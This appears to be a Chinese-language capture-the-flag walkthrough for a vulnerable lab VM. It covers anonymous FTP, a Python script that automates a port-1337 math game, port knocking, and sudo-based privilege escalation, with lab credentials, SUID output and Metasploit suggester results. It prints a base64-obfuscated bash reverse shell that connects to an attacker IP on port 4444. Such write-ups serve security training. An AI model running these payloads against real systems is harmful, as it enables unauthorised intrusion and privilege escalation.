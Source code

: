 
## ftp

匿名登陆ftp得到四个文件，其中一个文件提示端口1337有一个游戏



## 1337端口

```python
1000次数字游戏
import socket
import time

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
ip = "192.168.80.148"
port = 1337
s.connect((ip,port))

count = 0
time.sleep(1)
while count<=1001:

    data=s.recv(2048)

    print(data)

    data=data[-14:-2].decode('utf-8')

    # print(data)

    num1=data[-3]

    x=data[-7]

    num2=data[-11]

    print(f"正在计算：{num1}{x}{num2},这是第{count}次")

    # sum=0

    if x=="+":

        sum=int(num2)+int(num1)

    elif x =="*":

        sum=int(num2)*int(num1)

    elif x =="/":

        sum =int(num2)/int(num1)

    elif x =="-":

        sum = int(num2)-int(num1)

    s.send((str(sum)+"\n").encode())

    time.sleep(0.2)
    count+=1
s.close()



得到信息
Here is your gift, I hope you know what to do with it:1356, 6784, 3409

knock 192.168.80.148 1356 6784 3409

发现可以进行ssh了
用ftp得到的账户凭据进行登录nitu:81299，发现登录失败。


```
## 7331端口
>目录爆破发现一个wish目录可以执行命令，执行反弹shell

` echo "YmFzaCAtYyAnYmFzaCAtaSAmPi9kZXYvdGNwLzE3Mi4yNi4zMi4yMC80NDQ0IDA+JjEnCg==" | base64 -d | bash`

> 成功得到webshell

## 提权

>枚举/home/ntitsh/.dev/creds.txt 发现了nitish的账户密码，

ssh nitish@192.168.80.148

>得到nitish的shell，sudo -l 发现可以以sam的身份运行/usr/bin/genie 
>sudo -u sam /usr/bin/genie -cmd sam ， 发现切换到了sam用户。

sudo -l  : (root) NOPASSWD: /root/lago
是个游戏，简单尝试没有发现

查看sam家目录，发现了.pyc文件
scp ./.pyc kali@172.26.32.20:/home/work/1.pyc
uncompyle6 1.pyc 

检查源码后回到游戏中在猜数字环节输入”num“发现成功提权
























/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/genie
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su


cat creds.txt
nitish:p4ssw0rdStr3r0n9



 exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                Yes                      The target is vulnerable.
 2   exploit/linux/local/docker_cgroup_escape                           Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-66-generic is vulnerable
 3   exploit/linux/local/nested_namespace_idmap_limit_priv_esc          Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/pkexec                                         Yes                      The service is running, but could not be validated.
 5   exploit/linux/local/su_login                                       Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/sudoedit_bypass_priv_esc                       Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1.1 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module